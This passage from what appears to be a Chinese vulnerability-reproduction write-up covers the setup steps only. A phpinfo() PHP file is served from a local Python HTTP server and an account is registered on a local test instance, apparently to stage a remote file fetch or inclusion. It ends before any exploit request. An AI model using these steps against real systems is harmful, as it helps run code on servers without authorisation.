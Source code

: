### 漏洞复现

新建一个命名为`help.php`的文件，内容为：

```php
<?=phpinfo();?>
```

在文件目录下使用`python -m http.server 19980`

![document_image_rId7.png](assets/1704861626-d233e1a625d3fcac423d410bab036843.png)

访问 [http://localhost:38201/register](http://localhost:38201/register) 任意注册账号。

![document_image_rId8.png](assets/1704861626-5cc17ca30353f95ccfc0ac853f874f24.png)
